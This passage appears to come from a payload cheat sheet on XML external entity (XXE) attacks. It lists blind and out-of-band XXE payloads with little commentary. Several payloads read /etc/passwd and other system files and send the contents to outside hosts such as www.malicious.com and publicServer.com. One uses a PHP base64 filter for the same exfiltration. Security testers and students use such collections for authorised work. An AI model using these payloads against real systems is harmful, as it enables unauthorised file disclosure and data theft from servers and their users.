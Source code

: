 #### **Blind XXE**

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to "[www.malicious.com](http://www.malicious.com/)", you may receive only the first line.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

#### **XXE OOB Attack (Yunusov, 2013)**

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

#### **XXE OOB with DTD and PHP filter**

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

File stored on http://127.0.0.1/dtd.xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```
